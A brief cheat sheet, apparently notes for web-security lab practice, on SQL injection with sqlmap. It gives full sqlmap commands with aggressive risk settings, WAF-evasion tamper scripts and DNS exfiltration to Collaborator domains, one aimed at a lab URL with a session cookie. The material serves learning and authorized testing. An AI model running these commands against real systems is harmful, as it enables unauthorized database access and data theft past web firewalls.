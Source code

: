 # SQLI

Make sure SQLMAP DNS Collaborator extension is still installed (testing)

* Cryptocat recommends to avoid using `-r`option and to just use CLI

```bash
sudo sqlmap --skip-waf --risk 3 --level 3 -r request.item --batch --dns-domain=laz3k1ymu2kc0idl9tumx345nwtnhf54.oastify.com
```

Tamper scripts general (Jhaddix)

```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

```
sqlmap --list-tampers 
```

```bash
# Hex Entity encoded XML Post for lab
sudo sqlmap --skip-waf --dns-domain=izlubtqohy2z2888mo48gfhcv31upkd9.oastify.com  --level 3 --risk 3 -u https://0acf0086046a3c558189d41400ba001d.web-security-academy.net/product/stock --cookie "session=Q3sPhj537HOewWIqNvbF7uz9B8VMoaYI" --data '<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1*</storeId></stockCheck>' --tamper=hexentities --batch
```
